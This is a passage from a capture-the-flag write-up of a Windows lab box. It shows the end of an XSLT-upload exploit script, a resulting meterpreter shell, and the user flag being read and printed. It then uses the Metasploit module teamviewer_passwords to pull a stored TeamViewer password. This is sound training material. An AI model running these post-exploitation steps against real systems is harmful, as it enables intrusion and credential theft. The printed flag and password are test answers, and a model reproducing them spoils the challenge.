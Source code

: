 
    r4 = s.post(url_xslt,data=data,headers=headers);

    print("End");

That allow us to get a meterpreter on the box.

    :::text
    meterpreter > getuid
    Server username: IIS APPPOOL\DefaultAppPool

We can then use the meterpeter search function to found the user flag.

    :::text
    meterpreter > search -f user.txt
    Found 1 result...
        c:\Users\Public\user.txt (34 bytes)
    meterpreter > cat "c:\Users\Public\user.txt"
    fd2b1f187e6f48be38c224cdcb61faf5

# Getting Root

## TeamViewer way

We run simple `ps` on the system to list the process.
We easily spot the TeamViewer process.

    :::text
    meterpreter > ps
    <SNIP>
    2852  628   svchost.exe
    2860  628   svchost.exe
    2884  628   svchost.exe
    2936  628   svchost.exe
    2944  628   TeamViewer_Service.exe

A few Google search lead us to a metasploit post module to retrieve TeamViewer passwords

    :::text
    meterpreter > run post/windows/gather/credentials/teamviewer_passwords

    [*] Finding TeamViewer Passwords on REMOTE
    [+] Found Unattended Password: !R3m0te!

I struggle a lot there trying to connect to the TeamViewer session.
First I looted the TeamViewer ID in
`C:\Program Files (x86)\TeamViewer\Version7\TeamViewer7_Logfile.log` first lines.

As the box is not connected to the Internet it is not possible to connect using
the TeamViewer ID.  Therefore I tried to connect localy
[using directly the IP address](https://community.teamviewer.com/t5/Knowledge-Base/Can-TeamViewer-be-used-within-a-local-network-LAN-only/ta-p/4618)
but this also doesn't work.

